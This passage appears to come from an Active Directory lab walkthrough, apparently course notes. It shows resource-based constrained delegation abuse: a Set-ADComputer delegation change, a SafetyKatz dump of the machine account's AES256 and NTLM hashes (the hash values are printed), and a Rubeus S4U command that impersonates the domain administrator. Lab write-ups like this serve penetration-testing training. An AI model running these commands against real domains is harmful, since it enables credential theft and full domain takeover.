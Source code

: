 ```
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount student64$
```

![picture 32](images/8cdbeed8831d5ad5e6bb0a2261e2d55169aeb1295c80a0a671002ad8475a59eb.png)  

<br/>

Now we need the AES key of `student64`. Locally use **SafetyKatz.exe** to dump it out:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::ekeys"
```

![picture 35](images/a76ad0897fa4bf0eea7890f4d24611cf9dcfa62df20b98bdf6085d3ba325d676.png)  


Note:
student64$
- AES256: `c79f1c9f19d12057d4ff941cfea406defc7c51d0b176fac83ecd3ad2e1814ae2`
- NTLM: `c0b1e505a7434d9f4270c1e42d695d00`

<br/>

Use **Rubeus.exe** to access `us-desktop` as domain admin `administrator`:

```
C:\AD\Tools\Rubeus.exe s4u /user:student64$ /aes256:c79f1c9f19d12057d4ff941cfea406defc7c51d0b176fac83ecd3ad2e1814ae2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```
